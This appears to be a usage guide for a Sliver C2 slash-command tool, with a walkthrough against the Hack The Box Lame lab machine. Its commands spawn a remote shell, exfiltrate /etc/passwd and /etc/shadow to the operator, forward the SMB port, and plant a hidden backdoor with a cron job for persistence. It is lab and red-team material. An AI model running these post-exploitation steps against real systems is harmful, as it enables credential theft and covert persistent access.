### 4. Screenshot

```bash
# Basic usage
/sliver screenshot <session_id> [output_file]

# Example: Save with default filename
/sliver screenshot FANCY_TIGER

# Example: Save with specified filename
/sliver screenshot FANCY_TIGER desktop_capture.png
```

## Real Usage Example in HTB Lame Environment

### Scenario: Complete Compromise of HTB Lame (10.10.10.3)

```bash
# 1. Check Sliver connection
/sliver status

# 2. Check session list
/sliver implants

# 3. Start interactive shell
/sliver shell FANCY_TIGER

# Basic reconnaissance in shell
whoami
id
pwd
uname -a

# 4. Download important files
/sliver download FANCY_TIGER /etc/passwd ./htb_passwd.txt
/sliver download FANCY_TIGER /etc/shadow ./htb_shadow.txt
/sliver download FANCY_TIGER /root/root.txt ./root_flag.txt

# 5. Internal network reconnaissance
/sliver execute FANCY_TIGER "netstat -tlnp"
/sliver execute FANCY_TIGER "ss -tulnp"

# 6. Set up local access to SMB service
/sliver portfwd add FANCY_TIGER 4445 127.0.0.1:445

# From another terminal
smbclient -L //127.0.0.1 -p 4445

# 7. Process management
/sliver ps FANCY_TIGER

# Check Samba processes
/sliver execute FANCY_TIGER "ps aux | grep smb"

# 8. Establish persistence (example)
/sliver upload FANCY_TIGER /tmp/backdoor.sh /tmp/.backdoor.sh
/sliver execute FANCY_TIGER "chmod +x /tmp/.backdoor.sh"
/sliver execute FANCY_TIGER "echo '*/5 * * * * /tmp/.backdoor.sh' | crontab -"

# 9. Cleanup
/sliver portfwd list
/sliver portfwd remove <port_forward_id>
```
